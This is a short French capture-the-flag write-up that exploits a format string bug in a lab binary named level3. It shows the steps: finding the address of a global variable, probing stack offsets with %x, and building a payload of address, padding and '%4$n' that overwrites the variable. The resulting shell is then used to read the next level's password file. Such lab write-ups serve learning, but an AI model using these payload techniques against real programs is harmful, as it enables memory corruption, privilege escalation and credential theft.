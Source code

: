 On a encore un executable, on le disassemble
il a une fonction V
il y a fgets qui est protegé contre les buffer overflow

et qu'il a une comparaison de "64"

0x080484df <+59>:	cmp    $0x40,%eax

on cherche toute les variables du programme grace a info variable 
on cherche a savoir l'adresse de la variable m qui contient 64 avec print &m on obtient : 0x804988c

mais il y a un printf qu'on va manipuler pour changer la variable a l'adresse 0x804988c, on peut donc faire un format string attack

le flag %x de printf permet de print l'adresse en format hexadécimal

on va essayer de trouver ou se trouve l'adresse avec 

python -c 'print "CCCC %x %x %x %x %x %x"' > /tmp/test
cat /tmp/test - | ./level3

la ou ca se repete c'est la 4 eme position donc on va mettre l'adresse de la variable m qui est : \x8c\x98\x04\x08

python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit

on veut changer le contenu de M qui accepte que 64 bytes donc l'adresse M fait 4bytes il faut qu'on rajoute 60

python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit

on donne l'argument "%4$n" qui veut dire utilise l'argument 4 et utilise %n dessus (l'argument %n ecrit dans l'adresse donnee)

whoami

cat /home/user/level4/.pass